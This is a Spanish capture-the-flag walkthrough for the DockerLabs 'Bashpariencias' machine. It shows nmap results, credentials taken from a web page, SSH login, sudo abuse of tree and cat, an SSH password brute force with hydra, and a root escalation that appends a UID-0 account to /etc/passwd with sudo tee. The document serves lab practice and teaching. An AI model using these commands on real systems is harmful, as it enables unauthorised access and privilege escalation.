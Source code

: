 ```yaml
---
icon: flag
---
```


# Bashpariencias DockerLabs (Intermediate)

### Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip bashpariencias.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh bashpariencias.tar
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-07 11:11 EDT
Nmap scan report for 172.18.0.2
Host is up (0.000038s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd
|_http-title: Leeme
|_http-server-header: Apache
8899/tcp open  ssh     OpenSSH 6.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a3:b0:db:99:e4:c6:a5:b2:5d:2b:36:b6:3e:d0:15:00 (ECDSA)
|_  256 8f:26:4e:8c:60:28:5c:14:03:b2:45:22:ae:e1:f9:24 (ED25519)
MAC Address: 02:42:AC:12:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.53 seconds
```

Si nos vamos a la pagina y en la seccion de `form.html` veremos en el codigo lo siguiente.

```
rosa:lacagadenuevo
```

Por lo que si hacemos lo siguiente.

### SSH

```shell
ssh rosa@<IP>
```

Metemos la contraseña y ya estariamos dentro de la maquina.

```
User = rosa
Pass = lacagadenuevo
```

### Escalate user juan

Si vemos los procesos del sistema, veremos que se esta ejecutando cada segundo un script que lo que hace es crear el archivo `.txt` de la contraseña del usuario `juan` en la carpeta de `/tmp`, por lo que tendremos que ser rapidos y hacer lo siguiente.

```shell
cd /tmp
cat passjuan.txt
```

Info:

```
hackwhitbash
```

Por lo que ya habremos obtenido la contarseña de `juan`.

```shell
su juan
```

Metemos esa contraseña y ya seriamos ese usuario.

```
User = juan
Pass = hackwhitbash
```

### Escalate user carlos

Si hacemos `sudo -l` podremos ver lo siguiente.

```
Matching Defaults entries for juan on 4663ea8d0df3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User juan may run the following commands on 4663ea8d0df3:
    (carlos) NOPASSWD: /usr/bin/tree
    (carlos) NOPASSWD: /usr/bin/cat
```

Que podemos ejecutar esos dos binarios como el usuario `carlos`.

```shell
sudo -u carlos tree -a /home/carlos/
```

Info:

```
/home/carlos/
├── .bash_history
├── .bash_logout
├── .bashrc
├── .cache
│   └── motd.legal-displayed
├── .local
│   └── share
│       └── nano
├── .misecreto.txt
├── .profile
└── password

5 directories, 7 files
```

Encontrando los siguientes archivos nos atraen 2.

```shell
sudo -u carlos cat /home/carlos/password
sudo -u carlos cat /home/carlos/.misecreto.txt
```

Info:

```
(password)

chocolateado

(.misecreto.txt)

No se que hacer solo recuerdo el principio de mi password , olvide los tres ultimos caracteres y si cierro sesion no la recupero.

chocolateXXX

Temo que me despidan como a rosa.
```

Si probamos con la contraseña `chocolateado` vamos a ver que funciona para el usuario `carlos` pero tambien con el otro se podria haber hecho de esta manera...

En nuestro host crearemos un diccionario con esas palabras para ver cual de todas es.

```shell
mp64 'chocolate?l?l?l' > dic.txt
```

```shell
hydra -l carlos -P dic.txt ssh://<IP> -t 64 -s 8899
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-07 12:01:47
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 17576 login tries (l:1/p:17576), ~275 tries per task
[DATA] attacking ssh://172.18.0.2:8899/
[8899][ssh] host: 172.18.0.2   login: carlos   password: chocolateado
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 21 final worker threads did not complete until end.
[ERROR] 21 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-07 12:02:03
```

Por lo que vemos nos saca tambien las credenciales.

```
User = carlos
Pass = chocolateado
```

```shell
su carlos
```

Metemos la contraseña y ya seriamos ese usuario.

### Privilege Escalation

Si hacemos `sudo -l` veremos lo siguiente.

```
Matching Defaults entries for carlos on 4663ea8d0df3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User juan may run the following commands on 4663ea8d0df3:
    (ALL:NOPASSWD) /usr/bin/tee
```

Por lo que podemos ejecutar ese binario como `root`, por lo que haremos lo siguiente.

En nuestro host, codificaremos una contraseña con un salteado con la herramienta `openssl`.

```shell
openssl passwd -1 -salt "root" "1234"
```

Info:

```
$1$root$.fAWE/htZAqQge.bvM16O/
```

Y ahora en nuestra maquina victima, haremos lo siguiente.

```shell
printf 'tester:$1$root$.fAWE/htZAqQge.bvM16O/:0:0:root:/root:/bin/bash\n' | sudo tee -a /etc/passwd
```

Info:

```
tester:$1$root$.fAWE/htZAqQge.bvM16O/:0:0:root:/root:/bin/bash
```

Lo que estamos haciendo aqui es añadir una linea en el `passwd` con ese usuario con la bash de `root`, por lo que cuando cambiemos a ese usuario, seremos `root` con la contarseña `1234` que le implementamos.

```shell
su tester
```

Metemos la contraseña `1234` y ya seremos `root`.
